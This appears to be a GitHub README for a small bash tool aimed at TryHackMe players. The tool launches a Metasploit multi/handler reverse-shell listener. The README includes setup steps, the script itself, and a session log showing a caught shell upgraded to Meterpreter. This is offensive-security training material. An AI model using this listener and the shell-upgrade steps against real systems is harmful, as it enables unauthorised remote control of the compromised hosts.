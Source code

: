 # akrech-rev-shell

░█████╗░██╗░░██╗░█████╗░███╗░░██╗░██████╗░███████╗  ██╗░░░██╗░█████╗░██╗░░░██╗██████╗░
██╔══██╗██║░░██║██╔══██╗████╗░██║██╔════╝░██╔════╝  ╚██╗░██╔╝██╔══██╗██║░░░██║██╔══██╗
██║░░╚═╝███████║███████║██╔██╗██║██║░░██╗░█████╗░░  ░╚████╔╝░██║░░██║██║░░░██║██████╔╝
██║░░██╗██╔══██║██╔══██║██║╚████║██║░░╚██╗██╔══╝░░  ░░╚██╔╝░░██║░░██║██║░░░██║██╔══██╗
╚█████╔╝██║░░██║██║░░██║██║░╚███║╚██████╔╝███████╗  ░░░██║░░░╚█████╔╝╚██████╔╝██║░░██║
░╚════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝░╚═════╝░╚══════╝  ░░░╚═╝░░░░╚════╝░░╚═════╝░╚═╝░░╚═╝

███╗░░██╗░█████╗░██████╗░███╗░░░███╗░█████╗░██╗░░░░░  ░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ████████╗░█████╗░
████╗░██║██╔══██╗██╔══██╗████╗░████║██╔══██╗██║░░░░░  ██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ╚══██╔══╝██╔══██╗
██╔██╗██║██║░░██║██████╔╝██╔████╔██║███████║██║░░░░░  ╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  ░░░██║░░░██║░░██║
██║╚████║██║░░██║██╔══██╗██║╚██╔╝██║██╔══██║██║░░░░░  ░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ░░░██║░░░██║░░██║
██║░╚███║╚█████╔╝██║░░██║██║░╚═╝░██║██║░░██║███████╗  ██████╔╝██║░░██║███████╗███████╗███████╗  ░░░██║░░░╚█████╔╝
╚═╝░░╚══╝░╚════╝░╚═╝░░╚═╝╚═╝░░░░░╚═╝╚═╝░░╚═╝╚══════╝  ╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ░░░╚═╝░░░░╚════╝░

███╗░░░███╗███████╗████████╗███████╗██████╗░██████╗░██████╗░███████╗████████╗███████╗██████╗░
████╗░████║██╔════╝╚══██╔══╝██╔════╝██╔══██╗██╔══██╗██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗
██╔████╔██║█████╗░░░░░██║░░░█████╗░░██████╔╝██████╔╝██████╔╝█████╗░░░░░██║░░░█████╗░░██████╔╝
██║╚██╔╝██║██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗██╔═══╝░██╔══██╗██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗
██║░╚═╝░██║███████╗░░░██║░░░███████╗██║░░██║██║░░░░░██║░░██║███████╗░░░██║░░░███████╗██║░░██║
╚═╝░░░░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝

░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ███████╗░█████╗░░██████╗██╗░░░██╗██╗░░░░░██╗░░░██╗
██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ██╔════╝██╔══██╗██╔════╝╚██╗░██╔╝██║░░░░░╚██╗░██╔╝
╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  █████╗░░███████║╚█████╗░░╚████╔╝░██║░░░░░░╚████╔╝░
░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ██╔══╝░░██╔══██║░╚═══██╗░░╚██╔╝░░██║░░░░░░░╚██╔╝░░
██████╔╝██║░░██║███████╗███████╗███████╗  ███████╗██║░░██║██████╔╝░░░██║░░░███████╗░░░██║░░░
╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝░░░╚═╝░░░
please read carefully, if you havn't any idea about "how to upgrade a normal shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#PROCESS
easyly download/clone (akrech.sh) file by --- git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
& ./akrech.sh

#use "nano akrech.sh"if you want's to change the exploit or the IP/network interface.

<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

----------------------------------------------------------------------------------------
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



-----------------------------------------------------------------------------------------------------------

#akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
#this tool is made for time saving & day-to-day usage.
#metasploit has must be installed to ran this script on your machine.
#found me on tweeter-- https://twitter.com/a_k_r_e_c_H
#download

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another exploit--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
